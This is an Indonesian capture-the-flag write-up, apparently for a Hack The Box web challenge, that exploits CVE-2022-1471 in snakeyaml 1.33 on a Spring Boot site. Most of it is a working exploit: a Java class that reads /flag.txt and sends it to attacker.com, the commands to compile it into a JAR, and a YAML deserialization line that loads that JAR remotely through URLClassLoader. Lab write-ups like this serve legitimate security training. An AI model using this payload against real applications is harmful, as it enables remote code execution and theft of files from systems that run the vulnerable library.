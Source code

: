 #web #easy #htb #writeup_twang #springboot


# Persiapan
Untuk mengerjakan CTF ini, kami menggunakan tool:
- Ngrok

# Steps
Website kali ini dibangun menggunakan bahasa Java. Dan berdasarkan isi dari `pom.xml`, kita dapat memastikan bahwa website menggunakan snake_yaml versi 1.33.
```sml
<dependency>
            <groupId>org.yaml</groupId>
            <artifactId>snakeyaml</artifactId>
            <version>1.33</version>
        </dependency>
	</dependencies>
```

Versi `snake_yaml` tersebut memiliki celah Arbitrary Code Execution (CVE - 2022 - 1471). Referensi celah dan eksploitasi dapat ditemukan pada
- https://security.snyk.io/package/maven/org.yaml:snakeyaml/1.33 
- https://snyk.io/blog/unsafe-deserialization-snakeyaml-java-cve-2022-1471/
- https://github.com/artsploit/yaml-payload. 

Exploit ini dibuat bertujuan untuk mengambil konten file `/flag.txt` dan mengirimkan isi konten tersebut menuju `http://attacker.com/`.
```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.charset.StandardCharsets;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.net.HttpURLConnection;
import java.net.URL;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        Path filePath = Path.of("/flag.txt");
        try {
            String content = Files.readString(filePath, StandardCharsets.UTF_8);
            String urlString = "http://attacker.com/"+content;
            URL url = new URL(urlString);
            HttpURLConnection connection = (HttpURLConnection) url.openConnection();
            connection.setRequestMethod("GET");
            int responseCode = connection.getResponseCode();
            System.out.println("Response Code: " + responseCode);

            // Read the response
            BufferedReader reader = new BufferedReader(new InputStreamReader(connection.getInputStream()));
            String line;
            StringBuilder response = new StringBuilder();
            while ((line = reader.readLine()) != null) {
                response.append(line);
            }
            reader.close();

            // Print the response
            System.out.println("Response:\n" + response.toString());

            // Disconnect the connection
            connection.disconnect();
            
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}

```

Kemudian, compile file Java tersebut dan archive dengan menggunakan `jar`.
```sh
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

Selanjutnya, construct YAML untuk melakukan `ClassLoader` menuju JAR yang telah dibuat.
```yaml
snake_exploit: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["https://attacker.com/yaml-payload.jar"]]]]
```